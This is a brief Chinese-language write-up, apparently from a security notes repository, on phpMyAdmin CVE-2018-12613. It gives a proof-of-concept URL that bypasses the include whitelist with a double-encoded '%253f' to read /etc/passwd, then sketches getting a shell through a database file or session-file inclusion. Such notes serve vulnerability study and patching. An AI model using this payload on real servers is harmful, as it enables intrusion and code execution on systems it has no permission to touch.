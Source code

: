 # PhpMyAdmin

## CVE-2018-12613

``include $_REQUEST['target'];`` 引发的LFI+RCE

POC:
```
index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

``%253f``使得urldecode后 ``db_sql.php``被截取绕过白名单

在数据库文件中写入shell

然后通过``show variables like '%datadir%'``找到数据库存放地址

就可以getshell

也可通过session包含的方式

>We can execute SELECT '<?=phpinfo()?>';, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:

来getshell

参考资料 https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
